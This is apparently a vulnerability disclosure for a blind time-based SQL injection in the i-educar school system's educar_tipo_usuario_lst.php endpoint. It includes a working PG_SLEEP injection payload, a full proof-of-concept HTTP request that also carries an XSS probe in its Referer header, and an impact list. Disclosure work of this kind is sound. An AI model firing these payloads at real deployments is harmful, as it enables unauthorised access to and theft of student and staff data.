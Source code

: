 # SQL Injection (Blind Time-Based) Vulnerability in `descrição` Parameter on `educar_tipo_usuario_lst.php` Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `educar_tipo_usuario_lst.php` endpoint of the _i-educar_ application, specifically in the `descrição` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/educar_tipo_usuario_lst.php`  
**Parameter:** `descrição`

To reach the vulnerable functionality, it is necessary to navigate to:  
**Configurations > Permissions > User Types**.

<img width="1287" height="743" alt="Pasted image 20250809185459" src="https://github.com/user-attachments/assets/599dd438-a384-471f-876c-d1b9408f12e2" />


Additionally, exploiting this vulnerability requires an account with permissions to **create/list users and user types**.

The application fails to properly validate and sanitize user input in the `descrição` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---

## PoC

**Payload:**

`'%20AND%208767%3D(SELECT%208767%20FROM%20PG_SLEEP(10))%20OR%20'EgwO'%3D'pMdZ`

**Decoded Payload:**

`' AND 8767=(SELECT 8767 FROM PG_SLEEP(10)) OR 'EgwO'='pMdZ`

This payload triggers a **10-second delay** in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.

**Example Request:**
```
GET /intranet/educar_tipo_usuario_lst.php?busca=S&nm_tipo=1&descricao=1'%20AND%208767%3D(SELECT%208767%20FROM%20PG_SLEEP(10))%20OR%20'EgwO'%3D'pMdZ&nivel=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/intranet/educar_tipo_usuario_lst.php?busca=S&nm_tipo=%22%3E%3Csvg+onload%3Dalert%2812%29%3E&descricao=%22%3E%3Csvg+onload%3Dalert%2812%29%3E&nivel=-1
Cookie: grav-admin-flexpages=eyJyb3V0ZSI6Ii9ob21lIiwiZmlsdGVycyI6e319; grav-tabs-state={%22tab--f0e041eed24f87f2b6b02fd6924d0a08%22:%22data.languages%22%2C%22tab-flex-pages-e838602f51515c83bca06a8ae758ce52%22:%22data.security%22%2C%22tab-flex-pages-b6676b27f5cdf6b6c22f8e18da4259a0%22:%22data.advanced%22%2C%22tab-flex-pages-raw-8f0a83a672754f7823714134334b1de8%22:%22data.content%22%2C%22tab-flex-pages-dc26c564cb2116d77bda5fff24ba90dc%22:%22data.security%22%2C%22tab-flex_conf-user_groups-accounts-02f0e9f68f41a0648ed530f80bd72c06%22:%22data.cache%22%2C%22tab-flex-pages-raw-9a0364b9e99bb480dd25e1f0284c8555%22:%22data.content%22%2C%22tab-flex-pages-e91e6348157868de9dd8b25c81aebfb9%22:%22data.security%22%2C%22tab--8cc45760590da203c5fc3568ecbabd66%22:%22data.routes%22%2C%22tab--7a2ac3477f8ad14aa750831441325a16%22:%22data.facebook%22}; i_educar_session=hRnVO9PXmAH7dVAd7DsTeTgExwM6ccdtZZaCcpob
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```

<img width="1163" height="1042" alt="Pasted image 20250809185407" src="https://github.com/user-attachments/assets/91d8c392-b8da-4ade-9df8-08e79c8e61c6" />


Observe the increased server response time, confirming that the injected SQL command was executed.

---

## Impact

- **Unauthorized data access:** Reading sensitive information such as credentials, personal data, or configuration details
    
- **Database enumeration:** Extracting database schema, tables, and column details
    
- **Data manipulation:** Adding, modifying, or deleting database records
    
- **Denial of Service (DoS):** Using time-based queries to impact system availability
    
- **Potential escalation to RCE:** If combined with other vulnerabilities and specific database features
    

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
